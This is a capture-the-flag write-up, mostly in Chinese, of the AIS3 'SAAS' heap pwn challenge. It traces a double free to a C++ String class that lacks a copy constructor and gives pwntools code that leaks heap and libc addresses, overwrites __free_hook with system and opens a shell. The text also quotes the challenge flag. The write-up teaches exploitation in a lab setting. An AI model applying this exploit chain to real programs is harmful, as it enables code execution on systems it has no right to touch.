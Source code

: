 # SAAS

* Category: Pwn

Shell

* Score: 400/400
* Solves: 2/286

Crash

* Score: 40/100
* Solves: 137/286
* Score(MFCTF): 194/250
* Solves(MFCTF): 17/124

## Description

This challenge is not about Software as a Service, but String as a Service.

## Overview

一樣是 Linux x64 下的 C++ heap pwn (glibc 2.31)，主要目標在於利用這個有問題的 String implementation。

```c++
class String {
   public:
	char *str;
	size_t len;

	String(const char *s) {
		len = strlen(s);
		str = new char[len + 1];
		strcpy(str, s);
	}
	~String() { delete[] str; }
};
```

## Solution

### Crash

這個其實人工亂試就能弄出來了，看 pre-exam 的 Crash 版解題人數就知道:

```
> nc chals1.ais3.org 6008
===== S(tring)AAS =====
1. Create string
2. Edit string
3. Print string
4. Delete string
> 1
Index: 0
Content: peko
===== S(tring)AAS =====
1. Create string
2. Edit string
3. Print string
4. Delete string
> 3
Index: 0
Length: 4
Content: peko
===== S(tring)AAS =====
1. Create string
2. Edit string
3. Print string
4. Delete string
> 3
Index: 0
Length: 4
Content:
free(): double free detected in tcache 2
timeout: the monitored command dumped core
Aborted
AIS3{congrats_on_crashing_my_editor!_but_can_you_get_shell_from_it?}
```

基本上只要建立一個 String，然後重複 print 它兩次就能出現 double free。雖然很多人解掉，不過還是得理解這是什麼原因才能利用這個 bug 去 heap pwn。

選項三基本上就很單純的 `print(*strs[idx])`，而 `print` 函數也相當單純:

```c++
void print(String s) {
	printf("Length: %zu\n", s.len);
	printf("Content: ");
	write(1, s.str, s.len);
	printf("\n");
}
```

因為這題真正出問題的地方在於 `class String` 定義的時候沒有遵守 [Rule of Three](https://stackoverflow.com/questions/4172722/what-is-the-rule-of-three)，尤其是沒有 copy constructor 這項導致了 double free。當 C++ 在把 `*strs[idx]` 傳遞給 `print` 的時候是直接 pass by value 的，所以整個 object 包括裡面的 pointer 都會被 copy。但是等函數 return 回來之後這個 copy 出來的物件就沒有存在的必要了，所以 `~String()` 會被呼叫到。但是 copy 的時候預設是直接 shallow copy，pointer 也是原封不動的被 copy 了過去，所以第一次 `~String()` 就會在原本的 string 中產生 dangling pointer，下次 print 的時候就 double free 了。

這種問題 Google 一下也是有很多的結果:

* https://www.ptt.cc/bbs/C_and_CPP/M.1478927582.A.A3B.html
* https://stackoverflow.com/questions/5268342/double-free-errors-when-using-shallow-copies-of-objects-how-to-fix
* ...

直接看 IDA 的反編譯結果也能看出它究竟做了哪些事:

```c++
      case 3:
        v11 = readidx();
        if ( !strs[v11] )
          goto LABEL_19;
        v4 = (__int64 *)strs[v11];
        v5 = v4[1];
        v10[0] = *v4;
        v10[1] = v5;
        print(v10);
        String::~String((String *)v10);
        break;
```

### Shell

所以現在我們知道選項 `3` 的 print 實際上是 `print` + `free`，所以就有個 UAF 可以利用。

```python
def create(idx, val):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Index: ", str(idx).encode())
    io.sendlineafter(b"Content: ", val)


def edit(idx, val):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"Index: ", str(idx).encode())
    io.sendlineafter(b"New Content: ", val)


def printstr(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"Index: ", str(idx).encode())


def delete(idx):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"Index: ", str(idx).encode())
```

我的作法是先 leak 個 heap address 出來:

```python
create(0, b"a" * 16)
printstr(0)
create(1, b"b" * 16)
printstr(0)
io.recvuntil(b"Content: ")
heap_addr = int.from_bytes(io.recvn(6), "little")
print(f"{heap_addr = :#x}")
```

這樣第一次 `printstr(0)` 時把 `aaaa...` free 掉，然後 `create` 的時候因為大小相同從 tcache bin 拿出來當作 `strs[1]` 的 chunk，所以就有 `strs[0]->str == strs[1]`，然後因為 `strs[1]` 的最前面是放指向 `bbbb...` 的 pointer，再次 `printstr(0)` 就能 leak heap，之後可以方便計算一些其他 chunk 的 offset。

之後是要 leak libc，所以我先在前面部分的的前面加了這些東西:

```python
create(15, b"a" * 0x500)
create(14, b"yyyy")  # no consolidate
printstr(15)
```

這樣就能在 heap 上有個 unsorted bin，上面又會出現 libc 讓你 read。結合前面 leak 的 heap address 在 gdb debug 之後知道 libc 的位置是在上面 `+0x60` 的地方，所以可以寫出:

```python
create(0, b"a" * 16)
printstr(0)
create(1, b"b" * 16)
edit(0, flat([heap_addr + 0x40, 0x100]))
printstr(1)
io.recvuntil(b"Content: ")
io.recvn(0x20)
libc_base = int.from_bytes(io.recvn(8), "little") - 0x1BEBE0
print(f"{libc_base = :#x}")
```

`edit` 部分的概念和前面一樣是利用 `strs[0]->str == strs[1]`，也就是它可以寫 `strs[1]` 的 `str` 和 `len` 成任意的值，也就是可以任意(?)讀寫。不過很重要的是不能忘記 `print` 的時候其實是 `print` + `free`，由於 `+0x60` 是原本就已經 free 過的 chunk，所以就算有成功讀到 libc 之後也會因為 double free 直接炸。繞法就是在它的前面找個可以 free 的位置當作讀取點，然後透過控制長度一樣可以讀到 libc。

現在有了 libc，下一步就是在 `__free_hook` 中寫 system，然後 free 一個包含 `/bin/sh` 的 chunk 就能拿 shell 了。寫 `system` 的方法和前面也很相似:

```python
system = libc_base + 0x48E50
freehook = libc_base + 0x1C1E70
print(f"{system = :#x}")
print(f"{freehook = :#x}")
create(0, b"a" * 16)
printstr(0)
create(1, b"b" * 16)
edit(0, flat([freehook, 0x8]))
edit(1, p64(system))
```

然後再來就找個有 `/bin/sh` 的 chunk 即可，我這邊是直接在最一開始拿 unsorted bin 之前先弄 `create(10, b"/bin/sh")`，所以此時再 `delete(10)` 就是 shell 了。

完整的解法在 [solve.py](solve.py) 中。
